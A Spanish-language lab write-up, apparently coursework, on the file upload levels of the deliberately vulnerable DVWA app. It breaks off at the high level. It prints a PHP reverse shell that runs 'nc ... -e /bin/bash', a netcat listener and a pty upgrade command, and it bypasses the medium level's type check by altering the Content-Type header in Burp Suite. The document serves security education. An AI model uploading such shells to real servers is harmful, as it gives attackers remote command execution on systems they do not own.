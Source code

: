 # FU

Las vulnerabilidades de subida de archivos se producen cuando un servidor web permite a los usuarios subir archivos a su sistema de archivos sin validar suficientemente aspectos como su nombre, tipo, contenido o tamaño.

## Bajo

Para realizar este nivel, primero debemos acceder a la página de subida de archivos, para ello accedemos a la página principal de DVWA y pulsamos en `File Upload`. Una vez en la página de subida de archivos, podemos observar que el servidor web permite subir archivos de cualquier tipo, por lo que podemos subir la reverse shell que hemos creado en el nivel de `File Inclusion`.

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

Una vez subida la shell, podemos comprobar como se ha subido correctamente.

![fileUploadedLow](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/fileUploadedLow.png)

A continuación, buscamos donde se ha subido el archivo  que según nos indica la respuesta del servidor es:

![fileIndexLow](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/fileIndexLow.png)

Ahora, podemos crear una escucha en el puerto 4000 para recibir la conexión de la reverse shell y  a continuación accedemos a la URL de la shell que hemos subido para ejecutarla.

```bash
nc -lvnp 4000
```

Una vez se establece la conexión, podemos comprobar que tenemos acceso al sistema.
Si se quiere, se puede hacer un upgrade a una shell interactiva con el comando: 

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

En la siguiente imagen podemos observar como hemos obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![challenge-1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/challenge-1.png)

## Medio

Al contrario que en el nivel bajo, en este nivel el servidor web solo permite subir archivos de tipo `jpeg` o `png`, por lo que no podemos replicar la mecanica del nivel anterior.

![error](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/error.png)

Para poder subir la shell, debemos cambiar el tipo de archivo a `jpeg` o `png` y para ello podemos utilizar Burp Suite para interceptar la petición y modificar la cabecera `Content-Type` de la petición para que sea `image/jpeg` o `image/png`.

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/intercept.png)

 Una vez interceptada la petición y modificada la cabecera, podemos enviar la petición y comprobar que se ha subido correctamente.

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/intercept.png)

Al igual que en el nivel anterior, podemos observar como se ha obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![challenge-1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/challenge-1.png)

## Alto